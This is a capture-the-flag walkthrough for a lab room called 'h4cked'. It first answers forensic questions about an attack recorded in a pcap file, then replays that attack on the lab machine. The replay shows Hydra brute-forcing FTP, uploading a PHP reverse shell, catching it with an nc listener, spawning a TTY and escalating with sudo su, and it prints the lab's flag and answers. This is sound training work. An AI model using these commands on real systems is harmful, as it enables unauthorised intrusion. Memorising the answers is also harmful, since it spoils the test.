









# h4cked

## Description

Find out what happened by analysing a .pcap file and hack your way back into the machine

# [Task 1] Oh no! We've been hacked!

It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it.

First things first, let's run `wireshark` and start analyzing the pcap file provided for us.

## 1.1 - The attacker is trying to log into a specific service. What service is this?

Let's head to **"tcp.stream eq 0"** where things start. We can see that the attacker has tried to log into FTP service:

Answer: `FTP`

## 1.2 - There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

If you check the following streams, you realize that the attacker tried to brute-force the password for a user. The tool that the question is refering to is [`Hydra`](https://github.com/vanhauser-thc/thc-hydra) which is made by "Van Hauser" and is a popular tool for brute-forcing a series of services.

Answer: `Hydra`

## 1.3 - The attacker is trying to log on with a specific username. What is the username?

We can see the username in the same stream and a few ones after that:

Answer: `jenny`

## 1.4 - What is the user's password?

The attacker found the password in **"tcp.stream eq 7"**:

Answer: `password123`

## 1.5 - What is the current FTP working directory after the attacker logged in?

In **"tcp.stream eq 16"** the attacker logged in and ran `pwd` and we can see the current directory:

Answer: `/var/www/html`

## 1.6 - The attacker uploaded a backdoor. What is the backdoor's filename?

We can see that the attacker uploaded a file in the same stream, which is the backdoor file:

Answer: `shell.php`

## 1.7 -  The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

If you check **"tcp.stram eq 18"**, you can see the content of the uploaded file. The URL is in the last line of the header comments:

Answer: `http://pentestmonkey.net/tools/php-reverse-shell`

## 1.8 - Which command did the attacker manually execute after getting a reverse shell?

In **"tcp.stream eq 19"** the attacker called the shell and **"tcp.stream eq 20"** is where the attacker was intracting with the shell and here we can see the first command that was executed:

Answer: `whoami`

## 1.9 - What is the computer's hostname?

It's in the first line of the same stream:

Answer: `wir3`

## 1.10 - Which command did the attacker execute to spawn a new TTY shell?

The attacker used a python one-liner to spawn a TTY shell:

Answer: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

## 1.11 - Which command was executed to gain a root shell?

The attacker switched to user `jenny` and ran `sudo -l` and this user has permission to run all sudo commands. So the attacker ran a simple command and gained a root shell:

Answer: `sudo su`

## 1.12 - The attacker downloaded something from GitHub. What is the name of the GitHub project?

Answer: `Reptile`

## 1.13 -  The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

By navigating to the github link, we find out about the type of the backdoor that the attacker used.

Answer: `rootkit`

# [Task 2] Hack your way back into the machine

Now we have to hack our way back into the machine and obtain a flag. Let's deploy the machine and start!

## Log into FTP

We can follow the path that the attacker took. So the first thing I did was brute-forcing user `jenny`'s password for FTP service:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/h4cked]
└─$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt $IP ftp          
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 09:03:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.26.98:21/
[21][ftp] host: 10.10.26.98   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
~~~

Jenny's ftp password: `987654321`

## Reverse Shell

I logged on FTP service using the creds I got (`jenny:987654321`) and then uploaded a new reverse shell which you an get [here](https://github.com/pentestmonkey/php-reverse-shell). Don't forget to change the IP to yours.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ ftp $IP
Connected to 10.10.26.98.
220 Hello FTP World!
Name (10.10.26.98:user): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (29.9236 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5491 Oct 17 13:24 shell.php
~~~

Then I started a listener and called the shell and now we have a shell. The first thing I did was spawning a TTY shell:

Called the shell:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ curl -s "http://$IP/shell.php"
~~~

Shell:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.1.25] from (UNKNOWN) [10.10.26.98] 34638
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 13:28:32 up 35 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@wir3:/$
~~~

## Becoming Root

Now we neet to gain root access in order to obtain the flag. First I switched to user `jenny` with `987654321` as password and the ran `sudo -l` and could run all sudo commands on the machine:

~~~
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo -l
Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
~~~

I simply ran `sudo su` and became root:

~~~
jenny@wir3:/$ sudo su
root@wir3:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Flag

Now we can easily read the flag located in `/root/Reptile`:

~~~
root@wir3:/# cd /root/Reptile
root@wir3:~/Reptile# ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
~~~

Flag: `ebcefd66ca4b559d17b440b6e67fd0fd`

# D0N3! ;)

Hope you had fun like I did!

Thanks to the creator(s)!

And have a good one! : )
